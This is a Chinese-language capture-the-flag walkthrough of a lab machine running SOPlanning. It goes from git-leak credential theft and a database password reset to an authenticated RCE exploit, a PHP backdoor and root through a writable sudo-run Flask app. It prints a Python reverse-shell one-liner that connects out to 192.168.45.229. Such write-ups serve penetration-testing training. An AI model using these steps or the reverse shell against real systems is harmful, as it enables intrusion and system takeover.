

# 信息收集

## nmap


## 80端口

将域名解析添加到/etc/hosts

### git泄露

扫目录可以发现git泄露


使用一些git泄露的工具，可以将泄露的内容下载到本地，我这里使用[gakki429/Git_Extract: 提取远程 git 泄露或本地 git 的工具](./https://github.com/gakki429/Git_Extract)


### db-config.php

git泄露了源码内容，其中数据库配置文件中有数据库连接账号密码，上面扫端口时扫到3306端口开放，可以尝试连接到数据库



跳过ssl验证就可以成功连接到数据库


在`soplanning`数据库下的`planning_user`表中找到`admin`用户的账号和密码


使用[Hash Type Identifier - Identify unknown hashes](./https://hashes.com/en/tools/hash_identifier)识别hash类型之后使用hashcat进行爆破，使用rockyou字典没有爆破成功

查看当前用户权限`SHOW GRANTS FOR CURRENT_USER;`


对soplanning有所有权限，我们不能爆破密码那就尝试修改密码，要修改为和原密码相同的加密方式，最稳定的方法就是去源码中找到初始密码，然后修改为初始密码，源码中加密后的密码肯定是不会出现加密方式不同的问题


在`SOPlanning github`中找到了默认密码，并且查询后该密码为admin


还在`planning_config`表中找到了版本号


### login.php

在这个源码下还发现一个子域名


根据数据库名`soplanning`和版本号可以确定，这个页面才是数据库对应的页面，


上面已经对密码进行修改，这里通过`admin:admin`就可以登录

并且该版本存在经过认证的远程代码执行


`searchsploit -m 52082`将脚本下载到本地，然后按照使用方法就可以成功getshell


可以上传一个php的后门，访问以后就可以反弹shell

通过上面脚本得到的shell是对php后门命令执行后的回显，不能进行交互，所以拿到一个可以交互的shell会方便一点


# 提权

`home`目录下还有`jack`用户和`ubuntu`用户

上传pspy64运行后一段时间就会有个以jack用户运行的进程，利用该密码可以切换到jack用户


并且可以以sudo权限运行`/usr/bin/flask_password_changer`


jack用户对该文件没有可写权限，但是可执行

`/usr/bin/flask_password_changer`文件就是运行了一个flask项目，源码是在`/opt/password_change_app`下


但是`/opt/password_change_app`下的文件jack用户可以修改


修改app.py，在app.py中添加python语法的反向shell

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.229",3306));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```


然后运行`/usr/bin/flask_password_changer`，就会运行app.py得到root权限的反向hsell

